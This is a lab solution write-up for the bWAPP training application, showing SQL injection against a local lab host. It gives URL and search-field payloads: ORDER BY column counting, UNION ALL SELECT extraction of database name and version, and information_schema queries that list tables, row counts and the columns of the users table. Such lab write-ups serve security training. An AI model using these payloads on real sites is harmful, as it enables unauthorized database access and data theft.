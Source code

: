 # bWAPP-Solutions
bWAPP - SQL Injection

We added `'` character to the id in the url to see what kind of output we will get.

`172.16.112.128/bWAPP/sqli_2.php?movie=1'&action=go`

The output depends on the script's quality. If script filters input then no SQL error would be returned. Page will load normally or give a warning like “Attack Spotted, Your IP Address has been recorded” or something similar.  However we have got error like this: 

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your 
MySQL server version for the right syntax to use near ''' at line 1
```

Now we know that there is no any filter. Since we got an error, we are sure that this is SQL injectable and we can try to get some hidden data information from database.
 
##### SQL Injection (Select/GET)

###### Find Column Number of the SQL statement

There are two ways to find number of columns.

1.Using Order by

Order by  statement tell the database how to order the result. For example, the command below will order all the result by ascending order. Also we can change asc to desc.

Select name,age from user Where id=1 Order by user asc

It doesn't matter if column integer or string. Server will automatically order it by checking column type. Order by also can have number instead of column in select statement.  Using this method we can check how many column numbers in table.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 order by 1-- &action=go` and we didn't get error until we enter column number 8.That means we have 7 column in our  movies table.

We put `--` comment character to end of SQL command to get rid of leftover strays. 

2.Using Union

Using union select or union all select statements we can see which columns are outputted to the site. Then we can use to retrieve and output our data. Using union all select can prevent type mismatch and get around queries that use the keyword DISTINCT. Note that, we can also get number of columns by adding numbers to the union statement until page will be displayed normally.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,2,3,4,5,6,7--&action=go`

with “and 1=0” because only want to get data from union all statement. If we just wrote union statement without “and 1=0” then first select would overwrite second one.

Now we know that we can retrieve stolen data using 2,3,5,4 columns and we'll get database name and version using these columns.

###### Find Name of the Current Database

Adding database() to second column we can retrieve database name in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,database(),3,4,5,6,7--&action=go`

###### Find Version of the Database

Adding version() or @@version to second column we can retrieve database version in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),3,4,5,6,7--&action=go`

or 
```
http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),@@version,4,5,6,7--&action=go` 
```

##### SQL Injection (Search/POST)

###### List Table Names and Number of Records in Each Table of the Database.

All the table names and column names holds in Information_Schema database. To get tables, we would use information_schema like this:

Select table_name from information_schema.tables 

Using this query we can get all of the table names from database. Also column names by changing tables to columns. This only avaliable in version 5 and up. We find out version of the database adding version() to union statement. 

If we type “ma” to the search field we can see that query is something like “Select name From table Where name like '%ma%'. Server looking for value in the table containing “ma” pattern and can have text before and after it.  It could be amazing, Spider-Man or just Man.  We also can know what kind of input program expects from sqli_6.php

Using this SQL query we can get all of table schema and names from information_schema.tables.

```
' and 1 = 0 union all select 1,table_schema,table_name,4,5,6,7 from information_schema.tables where 1=0 or 1=1-- '
```

There were a lot of database name and table names. The reason is that we added 1=1 to end of query and that means bring all of the database and table names to us. There are more elegant ways to get table names of the database. For example,
```
' and 1=0 union all select 1,table_schema,table_name,4,table_rows,6,7 from information_schema.tables where table_schema = 'bwapp'-- '
```

table_schema was written to title which corresponds column 2, table_name was written to release which corresponds to column 3 and table_rows (records) was written to character which corresponds to column 5.

###### List Column Names of Each Table

We can retrieve column names by writing column names to information_schema instead of table names.  For example, 

Select column_name from information_schema.columns

Let's enter each table name to query to get columns names of table.

1. Blog Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'blog' and table_schema = 'bwapp'-- '
```

2. Heroes Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'heroes' and table_schema = 'bwapp'-- '
```

3. Movies Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'movies' and table_schema = 'bwapp'-- '
```

4. Users Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' and table_schema = 'bwapp'-- '
```







